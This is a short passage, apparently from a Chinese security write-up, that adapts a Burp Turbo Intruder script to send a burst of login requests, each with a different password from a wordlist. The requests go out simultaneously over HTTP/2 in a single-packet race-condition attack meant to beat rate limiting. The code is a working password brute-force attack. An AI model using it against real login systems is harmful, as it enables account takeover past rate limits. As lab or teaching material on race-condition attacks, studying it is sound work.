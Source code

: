 [![](assets/1705886561-be8f285cdad5e0df0b3ea5d30f4361e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120154825-4aea5042-b768-1.png)

因为我们要首先并发的同时又要实现每一个包对于的 passwd 都不一样的话就得稍微修改一下脚本

```plain
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # 接收剪切板的内容
    passwords = wordlists.clipboard

    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
